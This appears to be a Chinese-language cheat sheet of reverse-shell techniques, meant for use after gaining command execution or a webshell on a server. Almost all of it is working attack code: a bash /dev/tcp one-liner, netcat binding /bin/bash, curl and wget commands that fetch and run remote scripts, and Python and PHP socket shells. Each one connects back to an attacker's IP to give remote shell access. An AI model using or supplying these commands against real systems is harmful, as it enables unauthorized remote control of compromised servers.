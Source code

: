 # 1.bash反弹shell
个人感觉bash反弹是最简单、也是最常见的一种。

```bash
bash -i >& /dev/tcp/192.168.20.151/8080 0>&1
```

# 2.netcat 一句话反弹

```bash
~  nc 192.168.31.151 7777 -t  /bin/bash
 ```
 命令详解：通过webshell我们可以使用nc命令直接建立一个tcp 8080 的会话连接，然后将本地的bash通过这个会话连接反弹给目标主机（192.168.31.151）。
 
# 3.curl反弹shell
前提要利用bash一句话的情况下使用curl反弹shell

在存在命令执行的服务器上执行：

```bash
curl ip|bash
```

该ip的index文件上含有bash一句话，就可以反弹shell，例如在自己的服务器index上写上一句话

```bash
bash -i >& /dev/tcp/192.168.20.151/7777 0>&1
```

# 4.wget方式反弹
利用wget进行下载执行

```bash
wget 192.168.20.130/shell.txt -O /tmp/x.php && php /tmp/x.php
```

# 5.python反弹
py脚本

```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
curl ip/shell.py|python
```

# 6.php反弹

php脚本
```php
<?php
$sock=fsockopen("192.168.20.151",7777);//localhost为自己的外网ip，端口任意
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

不过这里要将php保存成txt文件进行反弹，若为php文件不会反弹成功。
```bash
curl ip/shell.txt|php
```


